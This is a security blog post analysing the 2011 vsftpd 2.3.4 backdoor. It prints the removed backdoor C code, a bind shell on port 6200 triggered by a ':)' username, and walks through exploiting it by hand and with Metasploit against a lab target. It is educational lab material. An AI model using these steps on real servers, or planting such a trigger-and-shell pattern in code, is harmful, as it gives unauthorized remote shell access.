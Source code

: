 ```yaml
---
layout: post
title:  "VSFTPD 2.3.4"
categories: [Technical]
tags: [backdoor, exploit, python]
---
```


### Introduction

Between June 30th - July 1st 2011 a backdoor was introduced into the vsftpd-2.3.4.tar.gz archive this backdoor allowed an attacker to get a bind shell to the system and thus compromising the system. Although the backdoor was removed quickly (July 3rd 2011) a lot of people downloaded this vulnerable version of VSFTPD, causing quite a lot of panic for sysadmins.

### So, how does it work?

In general, it's actually a pretty simple exploit, and whilst there is a Metasploit module you really don't need to use it. The backdoor payload is initiated in response to a user sending `:)` to the server upon being prompted for a username, by sending that smiley face to the server it executes a function which opens a bind shell listener on port 6200 of the affected device.

### Code Review

```
-    else if((p_str->p_buf[i]==0x3a)
-    && (p_str->p_buf[i+1]==0x29))
-    {
-      vsf_sysutil_extra();
-    }
```

As you can see in the above code, we're checking if some input is equal to a certain value, to be specific, we're checking if the user input is equal to `0x3a` and `0x29` if this is true then we're executing `vsf_sysutil_extra();` a quick Google on `0x3a` tells you it's a `:` and a further Google on `0x29` shows a `)` so as you can see there is the smiley face. So, now we know that we have this special input, let's look at the `vsf_sysutil_extra();` function as right now we don't have anything that resembles a vulnerability.

```
-int
-vsf_sysutil_extra(void)
-{
-  int fd, rfd;
-  struct sockaddr_in sa;
-  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
-  exit(1);
-  memset(&sa, 0, sizeof(sa));
-  sa.sin_family = AF_INET;
-  sa.sin_port = htons(6200);
-  sa.sin_addr.s_addr = INADDR_ANY;
-  if((bind(fd,(struct sockaddr *)&sa,
-  sizeof(struct sockaddr))) < 0) exit(1);
-  if((listen(fd, 100)) == -1) exit(1);
-  for(;;)
-  {
-    rfd = accept(fd, 0, 0);
-    close(0); close(1); close(2);
-    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
-    execl("/bin/sh","sh",(char *)0);
-  }
-}
-
-
```

As you can see above, we're creating a bind socket and setting up a listener process on that socket. We're opening this socket on port 6200 and that is where the vulnerability lies, because we can now connect to this socket without *any* authentication process taking place.

### Exploit

As I mentioned earlier we can exploit this using the Metasploit module `exploit/unix/ftp/vsftpd_234_backdoor` however, we can carry out this exploit manually fairly easily, we will look at both methods in this post.

It's worth noting for the below exploitation examples I am using [Metasploitable 2](https://metasploit.help.rapid7.com/docs/metasploitable-2)

#### Manual Exploitation

Firstly, let's telnet to our affected device on port 21 using `telnet ip port` once we do that we'll be asked for a username & password, let's use `:)` as the username & `pass` as the password. If we wait a few seconds then port 6200 should be opened, you can also manually escape with `^]` but waiting also works.

Now if we run an nmap scan on our target we should see that port 6200 is open, we can now use `telnet ip port` again and that's it! We now have shell access, if the service was running on a root account in a network we'd now have a root account in that network, simple, right? 


#### Metasploit Exploitation

As I mentioned, we can use the Metasploit module to carry out this attack however I do actually prefer doing it manually, nonetheless, let's get into this. Once again I am using [Metaspolitable 2](https://metasploit.help.rapid7.com/docs/metasploitable-2) as my target.

Start Metasploit using `msfconsole` then run `use exploit/unix/ftp/vsftpd_234_backdoor` now all we need to do is configure the host of the target, if you use `show options` you should see the `RPORT` field is already correct, to set the `RHOST` field use `set rhost ip` then we just type `run` and that's it, the script will carry out the attack for you, with a few exceptions it pretty much just does what you did manually, you can find a link to the Rapid7 page at the bottom of this post. But that's it! That's all we needed to do, now you have a shell.

### Python Exploitation

After browsing the Internet for a while I found this [blog post](https://0x00sec.org/t/re-building-a-vsftpd-backdoor-exploit-in-python/159) which showed an implementation of the Metasploit module in Python. As you can see, this is a Python 2 implementation, so for my own benefit I decided to rewrite the script into Python 3, you can find my Python 3 implementation repo [here](https://github.com/LinxzFade/vsftpd234-Backdoor)


### References

[Rapid7 Metasploit Module](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor)

[vsftpd 2.3.4 Vulnerable Code](https://pastebin.com/AetT9sS5)

[Metasploit Module Exploit Code](https://www.exploit-db.com/exploits/17491/)

[Python 2 Exploit Implementation](https://0x00sec.org/t/re-building-a-vsftpd-backdoor-exploit-in-python/159)

